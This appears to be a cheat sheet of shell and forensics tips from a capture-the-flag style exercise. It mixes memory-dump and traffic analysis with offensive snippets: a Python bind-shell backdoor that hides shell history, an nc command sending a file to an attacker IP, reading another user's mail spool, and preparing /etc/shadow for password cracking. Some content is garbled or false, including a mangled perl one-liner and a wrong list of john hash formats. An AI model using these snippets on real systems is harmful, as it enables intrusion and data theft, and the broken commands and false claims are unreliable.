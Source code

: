 # Investigate Deaths

### What is a handy bash script to decode mail attachments?
```
cat /var/spool/mail/arthur | egrep "^(\w|\+|=|/)+$" | base64 -d > /tmp/arthur.priv
```

### How do you find a user's ID?
```
id -u brett
```

### What command shows which user is opening ports?
```
netstat -palute
```

### What's a handy python script for a shell via telnet?
```
import os
import pty
import socket as sc

def mn():
    s = sc.socket()
    s.bind(('',0)) #random port from 1024-65535
    s.listen(1)
    (rem, addr) = s.accept()
    if "passcode" in rem.recv(1024).strip().decode("utf-8"):
        os.dup2(rem.fileno(),0)
        os.dup2(rem.fileno(),1)
        os.dup2(rem.fileno(),2)
        os.putenv("HISTFILE",'/dev/null')
        pty.spawn("/bin/bash")
    s.close()

if __name__ == "__main__":
    mn()
```

### How do you decode binary inline on the terminal?
```
cat <file> | perl -lpe '$=pack"B*",$'
```

### How do you view SSL-encrypted traffic in Wireshark if you have the keyfile?
`Edit>Preferences>Protocols>SSL` 

### How do you view SSL-encrypted traffic in tshark if you have the keyfile?
```
tshark -nr kanes.body -o ssl.keylog_file:./client_random.keylog -T fields -e http2.headers.cookie
```

### What command makes it simpler to help `john` use GECOS information from `/etc/passwd/`
```
unshadow /etc/passwd /etc/shadow > /tmp/passwd_shadow
```
Use this new file as the target for `john`.

### What hash formats are available to specify for john?
With the `--format=<hash type>` flag, you can specify to load specific hash types instead of letting john try to detect them automatically.
By specifying a specific format, you can speed up the john runtime and target only the password that you really want.
The available formats are `--format=HMAC-SHA256`, `--format=md5crypt`, and `--format=md5crypt-long`.
It seems that hashes that begin with `$1$` are md5crypt and hashes that  begin with `$6$` are sha512crypt.

### What is a memory dump?
A memory dump is a binary file that contains the complete contents of your system's memory.
Forensic tools exist to analyze memory dumps. One particular tool for creating a memory dump is DumpIt by Moonsols.

### What tool can be used to inspect a memory file dumped by DumpIt?
Volatility. The following should list available plugins to use when inspecting a dump file.
```
volatility --info
```

### How do you find the process list from a memory dump?
```
volatility -f <dump> pslist
```

### How to pipe a file through `nc`?
```
# From:
cat <file> | nc -u -b <attacker ip> <port>
# To:
nc -l -u -p <port> > <file>
```
